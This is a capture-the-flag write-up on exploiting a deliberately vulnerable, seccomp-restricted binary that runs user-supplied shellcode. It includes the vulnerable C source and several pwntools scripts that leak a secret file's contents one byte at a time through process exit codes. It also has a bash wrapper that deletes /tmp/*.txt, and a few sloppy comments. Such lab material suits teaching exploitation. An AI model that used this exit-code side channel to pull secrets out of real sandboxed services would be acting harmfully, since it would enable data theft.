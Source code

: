 ```yaml
---
title: Exploiting Seccomp-Restricted Program to Leak a Flag
author: megachar0x01
date: 2023-06-09
categories: [Pwn, amd64, ctf]
---
```


### Purpose : Get The Flag


**Introduction:** The purpose of this write-up is to explain the process of exploiting a seccomp-restricted program to leak a secret. Seccomp is a mechanism in Linux that restricts the system calls a program can make, providing an additional layer of security. The code provided demonstrates the use of seccomp to restrict the program to only two syscalls: `read` and `exit_group`. By leveraging these restrictions and reading one byte at a time, we can gradually leak the secret stored in the program's memory.

**Exploit Strategy:** To exploit the vulnerability, we need to leak the secret byte by byte. Since the program restricts the syscalls to `read` and `exit_group`, we cannot directly leak the secret using the `printf` function or other standard output methods. Instead, we can use the `exit_group` syscall to read the secret directly from memory. By continuously invoking the `exit_group` syscall with a  secret variable  pointer as first argument which  leaked one byte  with exit code that consists of byte in numeric form on every prgram exit , we can gradually leak the secret on .

<img src="https://i.imgur.com/ecAztLc.png" alt="img_1">

<img src="https://i.imgur.com/IEJkw96.png" alt="img_1">

## Vuln Code
```c

#define _DEFAULT_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <stddef.h>
#include <unistd.h>
#include <sys/prctl.h>
#include <sys/fcntl.h>
#include <linux/seccomp.h>
#include <linux/filter.h>
#include <linux/audit.h>
#include <sys/syscall.h>
#include <sys/mman.h>
#include <string.h>

#define CHECK(B) do { if(!(B)) exit(1); } while(0)

char secret[0x100];
int init_seccomp();

void init() {
    int fd;
    // setting stdout and stdin to be unbuffered
    setvbuf(stdout,0,_IONBF,0);
    setvbuf(stdin,0,_IONBF,0);
    // load the secret
    fd = open("secret.txt", O_RDONLY);
    read(fd, &secret, sizeof(secret));
    close(fd);
}

int main()
{
    char *code;

    init();

    printf("Welcome to \033[1;32mRCEaaS\033[0m\n");
    
    code = mmap(0, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANON, -1, 0);
    read(0, code, 0x1000);

    if (strcmp(secret, code)) {
        CHECK(!fclose(stdout));
        CHECK(!fclose(stderr));
        CHECK(!init_seccomp());
    } else
        printf("You seem trustworthy!\n");


    ((void (*)(void)) code) ();
}

int init_seccomp()
{
#define ALLOW(NR) \
    BPF_JUMP(BPF_JMP + BPF_JEQ + BPF_K, (NR), 0, 1), \
    BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_ALLOW) \

    struct sock_filter filter[] = {
        BPF_STMT(BPF_LD + BPF_W + BPF_ABS, offsetof(struct seccomp_data, arch)),
        BPF_JUMP(BPF_JMP + BPF_JEQ + BPF_K, AUDIT_ARCH_X86_64, 1, 0),
        BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_KILL),

        BPF_STMT(BPF_LD + BPF_W + BPF_ABS, offsetof(struct seccomp_data, nr)),
        ALLOW(SYS_read),
        ALLOW(SYS_exit_group),

        BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_KILL),
    };
#undef ALLOW

    struct sock_fprog prog = {
        .len = sizeof(filter) / sizeof(*filter),
        .filter = filter,
    };

    return prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0) || prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &prog);
}


```


## Exploit

##### First Exploit.py

```python
#!/usr/bin/python3
from pwn import *
import struct

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
break *main

break *main+159
continue
'''.format(**locals())

exe = './vuln'; elf = context.binary = ELF(exe, checksec=False);exe_rop = ROP(elf,checksec=False)

secret = 0x404060



for i in range(256):
	
	try:
		io = start()

		payload = asm(f"""nop
		mov rsi , {secret+i}
		mov rdi, [rsi]
		mov rax,231 /* read syscall number */
		syscall


		""")



		io.sendlineafter(b'Welcome to \033[1;32mRCEaaS\033[0m\n', payload)
		io.recvline()
		print(success())

	except EOFError:
		pass

print(Progress.success())



```

##### Second Exploit.py

```python
#!/usr/bin/python3
from pwn import *

temp_code = [0] * 256
temp_pid= [0] * 256

with open('/tmp/code.txt') as code:
	with open('/tmp/pid_sort.txt') as pid:

		for i in range (256):
			temp_code[i] = code.readline().strip("\n")
			temp_pid[i] = pid.readline().strip("\n")		
		for i in range(256):
			for j in range(256):
				if temp_code[j].split("(pid ")[1].strip(")\n") == temp_pid[i]:
					chr_int = temp_code[j].replace("[*] Process './vuln' stopped with exit code ","").split(" ")[0]
					print(chr(int(chr_int)),end="")

		print("\n")

```

##### Third Exploit.sh

```shell
#!/bin/bash
python3 first.py | tee /tmp/exit_code.txt
cat /tmp/exit_code.txt  |grep "stopped with exit code"  | tee /tmp/code.txt 
cat /tmp/exit_code.txt | grep "exit"  |cut -d "(" -f 2 | sort | cut -d " " -f 2   | cut -d ")" -f 1 | tee /tmp/pid_sort.txt
#clear
echo "Content of Secret.txt"
python3 second.py
rm /tmp/*.txt

```

After Writing this i was known that exit code can be recoded directly Thank @zeeshan.

```python

from pwn import *
context.arch = "amd64"

def gen(i, flag):
    payload = asm(f"""
    mov rsp, {flag+i}
    xor rdi, rdi
    mov dil, byte ptr [rsp]
    {shellcraft.exit_group("rdi")}
    """)
    return payload

char = ""
exit_code = 0

flag = 0x404060

for i in range(30):
    io = process(["./vuln"], close_fds=False)

    payload = gen(i, flag)
    io.sendlineafter(b'Welcome to \033[1;32mRCEaaS\033[0m\n', payload)
    

    exit_code = io.poll(True)
    if exit_code < 20:
        log.info(f"non ascii encountered, exiting...")
        exit(0)
    char += bytes.fromhex(hex(exit_code)[2:]).decode('ASCII')
    info(f"flag is {char}")

    io.close()





```


